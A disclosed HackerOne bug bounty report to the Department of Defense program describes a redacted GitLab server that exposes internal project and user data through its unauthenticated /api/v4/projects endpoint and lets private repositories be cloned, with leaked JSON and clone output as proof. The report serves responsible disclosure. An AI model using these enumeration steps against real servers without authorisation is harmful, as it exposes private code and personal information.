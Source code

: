 # insecure gitlab repositories at ████████ [HtUS]

## Report Details
- **Report ID**: 1624152
- **URL**: https://hackerone.com/reports/1624152
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-07-04T14:02:12.041Z
- **Disclosed**: 2022-09-27T18:18:55.472Z

## Reporter
- **Username**: thpless
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**If you click the link https://███, you're redirected to https://██████/users/sign_in, where credentials have to be inserted. 
The repositories are private and shouldn't be accessable for unauthenticated users!**

### POC

* If you click the following links https://████/api/v4/projects, information about internal projects and users is leaked

* I just take projectid: 4667 as an example for the information disclosure
```
{"id":4667,"description":"This Network-graph based literature review tool uses the open-source version of Neo4j (https://neo4j.com/) with Jupyter Notebooks written in Python to import academic literature metadata from a variety of sources. \r\n","name":"Graph-Based Literature Review Tool","name_with_namespace":"Senft, Michael / Graph-Based Literature Review Tool","path":"graph-based-literature-review-tool","path_with_namespace":"██████████/graph-based-literature-review-tool","created_at":"2021-10-19T12:47:16.550-07:00","default_branch":"master","tag_list":[],"topics":[],"ssh_url_to_repo":"git@██████:████/graph-based-literature-review-tool.git","http_url_to_repo":"https://████████/███████/graph-based-literature-review-tool.git","web_url":"https://████████/████████/graph-based-literature-review-tool","readme_url":"https://███/███/graph-based-literature-review-tool/-/blob/master/README.md","avatar_url":"https://████/uploads/-/system/project/avatar/4667/SchemaModel.jpg","forks_count":0,"star_count":1,"last_activity_at":"2022-01-31T08:48:54.473-08:00","namespace":{"id":1306,"name":"Senft, Michael","path":"██████████","kind":"user","full_path":"██████","parent_id":null,"avatar_url":"/uploads/-/system/user/avatar/1117/avatar.png","web_url":"https://███/████████"}}
```

* The source-code is accessable/readable: 
https://██████████/████/graph-based-literature-review-tool
https://█████/███████/graph-based-literature-review-tool/-/blob/master/README.md 

* It can be cloned 
```
git clone https://███/██████████/graph-based-literature-review-tool.git
Cloning into 'graph-based-literature-review-tool'...
remote: Enumerating objects: 198, done.
remote: Counting objects: 100% (68/68), done.
remote: Compressing objects: 100% (31/31), done.
remote: Total 198 (delta 41), reused 64 (delta 37), pack-reused 130
Receiving objects: 100% (198/198), 239.72 KiB | 503.00 KiB/s, done.
Resolving deltas: 100% (109/109), done.
```

## Impact

A potential attacker has full access to user information and to the users source-code

## Attachments
No attachments
